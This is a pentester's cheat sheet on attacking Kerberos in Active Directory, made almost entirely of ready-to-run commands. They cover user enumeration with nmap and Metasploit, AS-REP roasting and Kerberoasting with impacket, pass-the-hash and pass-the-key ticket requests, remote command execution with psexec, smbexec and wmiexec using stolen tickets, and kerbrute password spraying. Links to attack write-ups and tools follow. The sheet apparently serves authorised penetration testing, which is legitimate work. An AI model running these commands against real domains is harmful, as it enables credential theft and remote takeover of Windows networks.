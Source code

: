 ```yaml
---
category: Uncategorized
tags: [pentest]
created: 2024-12-21

---
```

#### nmap
```bash - kali
nmap -p 88 --script=krb5-enum-users --script-args="krb5-enum-users.realm='$DOMAIN_NAME'" $TARGET
```

#### MSF
```metasploit - kali
use auxiliary/gather/kerberos_enumusers 
```

# Check for Kerberoasting: 
```bash - kali
GetNPUsers.py DOMAIN-Target/ -usersfile user.txt -dc-ip $TARGET -format hashcat/john
```

# GetUserSPNs
```bash - kali
impacket-GetUserSPNs $DOMAIN_NAME/$USER:$PASSWORD -request -format <AS_REP_responses_format [hashcat | john]> -outputfile <output_AS_REP_responses_file>
```

```bash - kali
impacket-GetUserSPNs $DOMAIN_NAME/ -usersfile <users_file> -format <AS_REP_responses_format [hashcat | john]> -outputfile <output_AS_REP_responses_file>
```

# Kerberoasting: 
```bash - kali
impacket-GetUserSPNs $DOMAIN_NAME/$USER:PASSWORD -outputfile <output_TGSs_file> 
```

#### Overpass The Hash/Pass The Key (PTK):
```bash - kali
python3 getTGT.py $DOMAIN_NAME/$USER -hashes [lm_hash]:<ntlm_hash> -dc-ip $DOMAIN_CONTROLLER_IP
```

```bash - kali
python3 getTGT.py $DOMAIN_NAME/$USER -aesKey <aes_key> -dc-ip $DOMAIN_CONTROLLER_IP
```

```bash - kali
python3 getTGT.py $DOMAIN_NAME/$USER:$PASSWORD -dc-ip $DOMAIN_CONTROLLER_IP
```

#### Using TGT key to execute remote commands from the following impacket scripts:
```bash - kali
python3 psexec.py $DOMAIN_NAME/$USER@$TARGET -k -no-pass
```

```bash - kali
python3 smbexec.py $DOMAIN_NAME/$USER@$TARGET -k -no-pass
```

```bash - kali
python3 wmiexec.py $DOMAIN_NAME/$USER@$TARGET -k -no-pass
```

https://www.tarlogic.com/blog/como-funciona-kerberos/
https://www.tarlogic.com/blog/como-atacar-kerberos/

```bash - kali
python kerbrute.py -dc-ip $TARGET -users /root/kb_users.txt -passwords /root/pass_common_plus.txt -threads 20 -domain $DOMAIN_NAME -outputfile kb_extracted_passwords.txt
```

https://blog.stealthbits.com/extracting-service-account-passwords-with-kerberoasting/
https://github.com/GhostPack/Rubeus
https://github.com/fireeye/SSSDKCMExtractor
https://gitlab.com/Zer1t0/cerbero